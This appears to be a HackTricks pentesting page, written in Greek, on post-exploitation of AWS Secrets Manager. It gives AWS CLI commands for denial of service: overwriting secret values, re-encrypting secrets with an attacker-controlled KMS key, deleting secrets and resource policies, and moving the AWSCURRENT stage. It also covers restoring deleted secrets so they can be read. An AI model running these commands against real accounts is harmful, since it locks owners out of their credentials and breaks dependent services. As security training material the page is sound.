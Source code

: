 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Ανάγνωση Secrets

Τα **secrets είναι ευαίσθητες πληροφορίες**, [δείτε τη σελίδα privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) για να μάθετε πώς να τα διαβάσετε.

### DoS — Αλλαγή τιμής του Secret

Αλλάζοντας την τιμή του secret μπορείς να **DoS όλα τα συστήματα που εξαρτώνται από αυτήν την τιμή.**

> [!WARNING]
> Σημειώστε ότι οι προηγούμενες τιμές αποθηκεύονται επίσης, οπότε είναι εύκολο να επιστρέψετε στην προηγούμενη τιμή.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Αν ο attacker έχει την άδεια secretsmanager:UpdateSecret, μπορεί να ρυθμίσει το secret ώστε να χρησιμοποιεί ένα KMS key που ανήκει στον attacker. Αυτό το key αρχικά ρυθμίζεται με τέτοιο τρόπο ώστε οποιοσδήποτε να μπορεί να το προσπελάσει και να το χρησιμοποιήσει, επομένως η ενημέρωση του secret με το νέο key είναι δυνατή. Εάν το key δεν ήταν προσβάσιμο, το secret δεν θα μπορούσε να ενημερωθεί.

Αφού αλλάξει το key για το secret, ο attacker τροποποιεί τη διαμόρφωση του key του ώστε μόνο ο ίδιος να έχει πρόσβαση. Με αυτόν τον τρόπο, στις επόμενες εκδόσεις του secret θα κρυπτογραφείται με το νέο key, και επειδή δεν υπάρχει πρόσβαση σε αυτό, η δυνατότητα ανάκτησης του secret θα χαθεί.

Είναι σημαντικό να σημειωθεί ότι αυτή η μη προσβασιμότητα θα συμβεί μόνο σε μεταγενέστερες εκδόσεις, μετά την αλλαγή του περιεχομένου του secret, αφού η τρέχουσα έκδοση εξακολουθεί να είναι κρυπτογραφημένη με το αρχικό KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Ο ελάχιστος αριθμός ημερών για να διαγραφεί ένα secret είναι 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Είναι δυνατή η επαναφορά ενός secret, η οποία επιτρέπει την αποκατάσταση των secrets που έχουν προγραμματιστεί για διαγραφή, αφού η ελάχιστη περίοδος διαγραφής για τα secrets είναι 7 ημέρες και η μέγιστη 30 ημέρες. Σε συνδυασμό με την άδεια secretsmanager:GetSecretValue, αυτό καθιστά δυνατή την ανάκτηση του περιεχομένου τους.

Για να ανακτήσετε ένα secret που βρίσκεται στη διαδικασία διαγραφής, μπορείτε να χρησιμοποιήσετε την παρακάτω εντολή:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Αυτή η ενέργεια επιτρέπει τη διαγραφή της πολιτικής πόρου που ελέγχει ποιος μπορεί να έχει πρόσβαση σε ένα μυστικό. Αυτό μπορεί να οδηγήσει σε DoS εάν η πολιτική πόρου είχε ρυθμιστεί ώστε να επιτρέπει πρόσβαση σε ένα συγκεκριμένο σύνολο χρηστών.

Για να διαγράψετε την πολιτική πόρου:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Οι καταστάσεις ενός secret χρησιμοποιούνται για τη διαχείριση των εκδόσεων ενός secret. AWSCURRENT σηματοδοτεί την ενεργή έκδοση που χρησιμοποιούν οι εφαρμογές, AWSPREVIOUS διατηρεί την προηγούμενη έκδοση ώστε να μπορείτε να επαναφέρετε αν χρειαστεί, και AWSPENDING χρησιμοποιείται στη διαδικασία rotation για να προετοιμάσει και να επικυρώσει μια νέα έκδοση πριν την κάνει την τρέχουσα.

Οι εφαρμογές διαβάζουν πάντα την έκδοση με AWSCURRENT. Αν κάποιος μετακινήσει αυτήν την ετικέτα σε λάθος έκδοση, οι εφαρμογές θα χρησιμοποιήσουν μη έγκυρα credentials και ενδέχεται να αποτύχουν.

Το AWSPREVIOUS δεν χρησιμοποιείται αυτόματα. Ωστόσο, αν το AWSCURRENT αφαιρεθεί ή ανατεθεί λανθασμένα, μπορεί να φαίνεται ότι όλα εξακολουθούν να λειτουργούν με την προηγούμενη έκδοση.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}
